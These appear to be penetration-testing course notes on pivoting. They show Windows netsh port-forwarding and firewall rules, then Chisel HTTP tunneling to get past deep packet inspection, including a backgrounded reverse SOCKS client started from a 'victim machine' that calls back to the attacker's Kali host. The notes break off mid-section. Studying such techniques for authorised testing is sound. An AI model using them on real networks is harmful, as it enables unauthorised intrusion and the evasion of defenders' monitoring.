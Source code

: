 #### Using Netsh on Windows - Admin Privs Required!
- Set a local port forwarding rule
```
C:\Windows\system32>netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215
```
- Also, we need to allow inbound traffic on the local firewall
```
C:\Windows\system32> netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow
Ok.

C:\Windows\system32>
```
When we finish, we can delete the rules we just created:
```
C:\Users\Administrator>netsh advfirewall firewall delete rule name="port_forward_ssh_2222"

Deleted 1 rule(s).
Ok.
```
```
C:\Windows\Administrator> netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64

C:\Windows\Administrator>
```
- Confirm current rules present:
```
C:\Windows\system32>netsh interface portproxy show all
Listen on ipv4:             Connect to ipv4:

Address         Port        Address         Port
--------------- ----------  --------------- ----------
192.168.203.64  2222        10.4.203.215    22
```


#### Tunneling with Chisel through DeepPacketInspection
- Chisel will encapsulate our ssh tunnel inside a HTTP tunnel. This means ALL our traffic will be formatted as HTTP and will look like HTTP for DPI solutions.  This allows us to use the same ssh port forwarding techniques from before but, this time *through* an HTTP tunnel.

1. Start Chisel server on kali:
```
kali@kali:~$ chisel server --port 8080 --reverse
```
2. From the victim machine, connect to the chisel server and establish a remote port forwarding binding a SOCKS proxy port(1080 default) on the chisel server.
```
/tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 &
```
3. Use the SOCKS proxy port 1080 that is listening on the loopback interface of our Kali machine to connect to the exposed targets in the internal network. 
```
Note: Previously we've created SOCKS proxy ports with both SSH remote and classic dynamic port forwarding, and used **Proxychains** to push non-SOCKS-native tools through the tunnel. But we've not yet actually run SSH itself through a SOCKS proxy.

SSH doesn't offer a generic SOCKS proxy command-line option. Instead, it offers the _ProxyCommand_[5](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/tunneling-through-deep-packet-inspection/http-tunneling-theory-and-practice/http-tunneling-with-chisel#fn5) configuration option. We can either write this into a configuration file, or pass it as part of the command line with **-o**.

```